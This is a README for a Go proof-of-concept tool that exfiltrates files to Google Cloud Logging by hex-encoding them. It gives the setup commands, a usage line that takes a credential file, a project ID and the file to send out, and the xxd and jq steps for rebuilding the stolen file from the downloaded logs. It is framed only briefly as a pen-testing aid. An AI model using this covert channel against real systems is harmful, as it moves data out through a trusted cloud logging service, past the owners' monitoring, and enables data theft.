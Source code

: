   
## Usage
Proof of concept data exfil binary files to cloud logging via hex string
Dennis Chow dchow[AT]xtecsystems.com March 26, 2023
No expressed warranty or liability.

Dependencies and environment setup

    go init gologexfil/main && go get cloud.google.com/logging

Usage: 
`go run main.go --service-cred <YOUR-ACC-CRED.json> --project-id <YOUR-GCP-PROJECTID> --exfil-file <PATH/TO/FILE.foo>`

Note: In pen testing do a go build first go build -o gologexfil ./main.go ensure you have already go get cloud.google.com/logging

Retrieve your file in GCP Cloud Logging either by console and dump to file e.g. cat dump.txt | xxd -r -p > somefile.ext

Alternatively use jq e.g.:

    jq -r '.[] | {textPayload} | select(.textPayload != null) | .textPayload' ./downloaded-logs.json > payload-hexdump.text

